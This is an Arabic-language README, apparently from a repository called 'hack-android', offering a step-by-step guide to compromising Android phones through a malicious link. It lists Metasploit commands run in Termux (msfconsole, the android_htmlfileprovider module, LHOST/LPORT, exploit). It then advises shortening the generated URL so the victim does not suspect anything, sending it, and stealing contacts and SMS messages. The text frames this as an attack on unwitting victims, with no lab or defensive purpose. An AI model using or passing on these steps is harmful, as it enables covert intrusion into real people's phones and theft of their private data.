 # hack-android-
عمل رابط ملغم لاختراق الاندوريد 


هاي//اقدم لكم اختراق اي جهاز نظامه--اندرويد-- عبر رابط ملغم بالميتاسبلوت بـ "termux "♥

اختراق هواتف الاندرويد فقط عبر رابط ملغم بالميتاسبلويت termux

اولاً : نقوم بدخول الى تطبيق termux
ثانياً : نقوم بدخول الى نظام ميتاسبلويت عبر الامر
msfconsole
ثم تقوم بكتابة هذه الاوامر 

1- use auxiliary/gather/android_htmlfileprovider

2- set LHOST
 
3- set LPORT

طبعا تكتب جنب

set LHOST 197.00.1

تكتب بدال YOUR IP الاي بي IP الخاص بهاتفك

set LPORT 8080

بدل YOUR PORT تكتب البورت 
نصيحة ⇐ ( اكتب 8080 )

ثم قم بكتابة امر جلسة 
exploit

سيعمل الجلسة وايضاً سيعطيك رابط قد تكون شبيهة كالآتي :

http://0.0.0.0:8080/RVUnsihzagyfdLu

النموذج بهذا الشكل 
يمكنك اختصار الرابط لكي لا يشك بك الضحية فقط قم بنسخ الرابط ملغم واختصره وثم قم بارساله للضحية عند دخوله للرابط سيأتيك التبليغ اليك بكل سهولة بدون تحميل اي شيء على هاتف الضحية وبعدها كل ماعليك هو
 كتابة امر help واستخدام الميزات التي يمكنك فعلها بهاتف الضحية مثال سحب جهات الارقام وسحب رسائل sms والخ ...



تحياتي
